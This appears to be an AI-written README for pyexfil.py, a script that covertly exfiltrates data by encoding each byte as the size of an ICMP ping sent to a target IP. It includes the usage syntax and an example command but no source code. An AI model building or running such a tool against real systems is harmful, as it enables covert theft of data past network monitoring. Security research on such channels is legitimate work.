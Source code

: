Here’s a simple README for the pyexfil.py script:

pyexfil.py

Description

pyexfil.py is a Python script designed to covertly exfiltrate data by encoding it as ICMP packet sizes and sending them to a target IP address using the ping command. The script works by converting a given string into its byte representation and then sending a single ping for each byte, with the size of the ping corresponding to the byte value.

How It Works

	1.	The user provides a target IP address and the data they want to exfiltrate.
	2.	The script encodes the data into bytes.
	3.	It sends ICMP echo requests (ping) to the target IP with the byte values as the packet size.

Note: This script is intended for educational purposes only. Unauthorized use of this script to exfiltrate data without permission is illegal.

Requirements

	•	Python 3.x
	•	ICMP ping capabilities on the system
	•	Administrative privileges (may be required for ICMP operations depending on your environment)

Usage

python pyexfil.py <IP> <data>

Arguments:

	•	<IP>: The target IP address to send the pings to.
	•	<data>: The data string to be encoded and sent via ICMP packets.

Example:

python pyexfil.py 192.168.1.100 "HelloWorld"

This will send pings to 192.168.1.100, with each byte of the string HelloWorld converted to its ASCII byte value and sent as the packet size.

How to Install

	1.	Clone the repository or download the pyexfil.py file.
	2.	Ensure Python 3.x is installed on your system.
	3.	Run the script as shown in the usage example.

Limitations

	•	This script sends ICMP packets with sizes corresponding to ASCII values. Some systems may filter or limit ping packet sizes.
	•	The script is intended for educational and security research purposes only. Unauthorized use can lead to legal consequences.

Legal Disclaimer

This script is provided for educational purposes only. The author is not responsible for any misuse or damage caused by this script. Use responsibly and ensure you have explicit permission before running this script against any system.

License

This project is licensed under the MIT License. See the LICENSE file for details.

Let me know if you need any adjustments or additional details!